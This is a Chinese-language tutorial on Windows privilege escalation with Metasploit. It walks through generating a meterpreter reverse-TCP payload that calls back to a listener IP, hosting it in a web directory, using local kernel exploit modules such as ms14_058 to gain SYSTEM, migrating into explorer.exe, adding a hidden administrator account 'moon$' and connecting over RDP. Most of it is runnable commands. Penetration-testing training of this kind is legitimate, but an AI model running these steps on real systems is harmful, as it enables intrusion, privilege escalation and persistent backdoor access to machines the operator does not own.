




## 1、简介

Metasploit是一款开源的安全漏洞检测工具，可以帮助安全和IT专业人士识别安全性问题，验证漏洞的缓解措施，并管理专家驱动的安全性进行评估，提供真正的安全风险情报。这些功能包括智能开发，代码审计，Web应用程序扫描，社会工程。团队合作，在Metasploit和综合报告提出了他们的发现。

## 2、常见的提权模块

metasploit  提权EXP 存储文件夹路径

- linux：/usr/share/metasploit-framework/modules/exploits/windows/local
- windows：windows/local

windows 常见的提权模块

- ms14_058  内核模式驱动程序中的漏洞可能允许远程执行代码
- ms16_016  WebDAV本地提权漏洞(CVE-2016-0051)
- ms16_032  MS16-032 Secondary Logon Handle 本地提权漏漏洞

## 3、metasploit  windows提权

生成攻击载荷

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

进入终端

```bash
msfconsole
```

本地监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

把s.exe上传到网站目录下，在cmd下运行就可以得到一个iis用户权限 meterpreter

http://www.demoasp.com/asp.aspx admin

## 4、常用命令

提权命令： 

- sysinfo 查看系统信息 
- migrate 注入进程 
- getuid 当前用户 
- getprivs 尽可能提升权限 
- getsystem 通过各种攻击向量来提升系统用户权限 

增加管理员 

```bash
net user moon$ moon123 /add && net localgroup Administrators moon$ /add
```

## 5、基础命令

- ps 列出进程
- background 把session放置后台
- sessions 查看会话
- back 返回主界面
- shell得到终端
- search 搜索模块
- show 列模块
- info 查看模块信息 

## 6、使用模块进行提权（需session放后台）

搜索模块

```
search ms14_058
```

查看模块信息

```bash
info exploit/windows/local/ms14_058_track_popup_menu
use exploit/windows/local/ms14_058_track_popup_menu
show options
set SESSION 1
exploit 
```

 运行之后 我们成功的情况下用getuid查看当前的权限是system权限 也就是最高权限。



7、保持权限

ps 列出进程
migrate 注入进程

migrate 2860 注入explorer 进程

 

 shell  增加超级管理员

```bash
net user moon$ moon123 /add
net localgroup Administrators moon$ /add
```

在kali里面链接远程终端

```bash
rdesktop 192.168.31.115 
```

